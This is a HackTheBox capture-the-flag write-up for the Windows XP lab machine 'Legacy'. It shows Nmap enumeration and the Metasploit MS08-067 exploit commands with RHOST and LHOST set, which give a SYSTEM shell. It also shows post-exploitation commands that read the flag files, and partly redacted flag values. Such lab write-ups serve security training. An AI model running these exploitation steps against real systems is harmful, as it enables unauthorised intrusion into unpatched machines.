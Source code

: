 ```yaml
---
lang: "en"
classoption: oneside
code-block-font-size: \scriptsize
geometry: "a4paper"
geometry: "margin=2cm"
header-includes:
  - \usepackage{float}
  - \floatplacement{figure}{H}
  - \usepackage{xcolor}
  - \hypersetup{breaklinks=true,
                bookmarks=true,
                pdftitle="Legacy",
                pdfauthor="svachal (@7h3rAm)",
                pdfsubject='Writeup for HackTheBox VM Legacy',
                pdfkeywords="oscp htb windows",
                colorlinks=true,
                linkcolor=cyan,
                urlcolor=blue}
  - \usepackage{fvextra}
  - \DefineVerbatimEnvironment{Highlighting}{Verbatim}{breaklines,breakanywhere=true,commandchars=\\\{\}}
  - \usepackage{mathtools}
---
```


# [[HackTheBox] Legacy](https://www.hackthebox.eu/home/machines/profile/2)

**Date**: 01/Nov/2019  
**Categories**: [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp), [htb](https://github.com/7h3rAm/writeups/search?q=htb&unscoped_q=htb), [windows](https://github.com/7h3rAm/writeups/search?q=windows&unscoped_q=windows)  
**Tags**: [exploit_smb_ms08_067](https://github.com/7h3rAm/writeups/search?q=exploit_smb_ms08_067&unscoped_q=exploit_smb_ms08_067)  

## Overview
This is a writeup for HackTheBox VM [Legacy](https://www.hackthebox.eu/home/machines/profile/2). Here are stats for this machine from [machinescli](https://github.com/7h3rAm/machinescli):

![writeup.overview.machinescli](./machinescli.png)

### Killchain
Here's the killchain (`enumeration` → `exploitation` → `privilege escalation`) for this machine:

![writeup.overview.killchain](./killchain.png)


### TTPs
1\. `139/tcp/netbios-ssn/Microsoft Windows netbios-ssn`: [exploit_smb_ms08_067](https://github.com/7h3rAm/writeups#exploit_smb_ms08_067)  


\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.70 scan initiated Fri Nov  1 14:44:27 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/htb.legacy/results/10.10.10.4/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/htb.legacy/results/10.10.10.4/scans/xml/_quick_tcp_nmap.xml 10.10.10.4
Nmap scan report for 10.10.10.4
Host is up, received user-set (0.057s latency).
Scanned at 2019-11-01 14:44:28 PDT for 276s
Not shown: 997 filtered ports
Reason: 997 no-responses
PORT     STATE  SERVICE       REASON          VERSION
139/tcp  open   netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  syn-ack ttl 127 Windows XP microsoft-ds
3389/tcp closed ms-wbt-server reset ttl 127
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -3h59m53s, deviation: 1h24m50s, median: -4h59m53s
| nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:0c:03 (VMware)
| Names:
|   LEGACY<00>           Flags: <unique><active>
|   HTB<00>              Flags: <group><active>
|   LEGACY<20>           Flags: <unique><active>
|   HTB<1e>              Flags: <group><active>
|   HTB<1d>              Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   00 50 56 b9 0c 03 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 40600/tcp): CLEAN (Timeout)
|   Check 2 (port 13850/tcp): CLEAN (Timeout)
|   Check 3 (port 50902/udp): CLEAN (Timeout)
|   Check 4 (port 54226/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery:
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2019-11-01T20:44:53+02:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
|_smb2-time: Protocol negotiation failed (SMB2)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov  1 14:49:04 2019 -- 1 IP address (1 host up) scanned in 276.38 seconds

```

2\. Here's the summary of open ports and associated [AutoRecon](https://github.com/Tib3rius/AutoRecon) scan files:  

![writeup.enumeration.steps.2.1](./openports.png)  

3\. From the Nmap scan results, we find that the target system has SMB service running and is a Windows XP system:  
``` {.python .numberLines}
| smb-os-discovery:
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2019-11-01T20:44:53+02:00

```


### Findings
#### Open Ports
``` {.python .numberLines}
137/udp  |  netbios-ns    |  Microsoft Windows netbios-ns (workgroup: HTB)
139/tcp  |  netbios-ssn   |  Microsoft Windows netbios-ssn
445/tcp  |  microsoft-ds  |  Windows XP microsoft-ds
```

\newpage
## Phase #2: Exploitation
1\. For a Microsoft Windows XP system with open SMB, we use the MSF [MS08-067](https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2008/ms08-067) exploit `windows/smb/ms08_067_netapi` and gain a shell with elevated privileges on the target system:  
``` {.python .numberLines}
msfconsole
  use exploit/windows/smb/ms08_067_netapi
  set RHOST 10.10.10.4
  set LHOST 10.10.14.18
  show options
  exploit

```

![writeup.exploitation.steps.1.1](./screenshot01.png)  

2\. We then obtain further information about the system and read the contents of both `user.txt` and `root.txt` files to comeplete the challenge:  
``` {.python .numberLines}
ipconfig
systeminfo
dir user.txt /s /p
type "C:\Documents and Settings\john\Desktop\user.txt"
type "C:\Documents and Settings\Administrator\Desktop\root.txt"

```

![writeup.exploitation.steps.2.1](./screenshot02.png)  

![writeup.exploitation.steps.2.2](./screenshot03.png)  

![writeup.exploitation.steps.2.3](./screenshot04.png)  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
ntauth/system@LEGACY> id
NT AUTHORITY\SYSTEM
ntauth/system@LEGACY>  
ntauth/system@LEGACY> uname
Host Name:                 LEGACY
OS Name:                   Microsoft Windows XP Professional
OS Version:                5.1.2600 Service Pack 3 Build 2600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Uniprocessor Free
ntauth/system@LEGACY>  
ntauth/system@LEGACY> ifconfig
Ethernet adapter Local Area Connection:
  Connection-specific DNS Suffix  . :
  IP Address. . . . . . . . . . . . : 10.10.10.4
  Subnet Mask . . . . . . . . . . . : 255.255.255.0
  Default Gateway . . . . . . . . . : 10.10.10.2
ntauth/system@LEGACY>  
ntauth/system@LEGACY> users
Administrator
john
```

\newpage

\newpage

## Loot
### Flags
``` {.python .numberLines}
C:\Documents and Settings\john\Desktop\user.txt: e69af0e4f443de7e................
C:\Documents and Settings\Administrator\Desktop\root.txt: 993442d258b0e0..................
```

## References
[+] <https://www.hackthebox.eu/home/machines/profile/2>  
[+] <https://medium.com/@_C_3PJoe/htb-retired-box-walkthrough-legacy-147bbcc9ff02>  
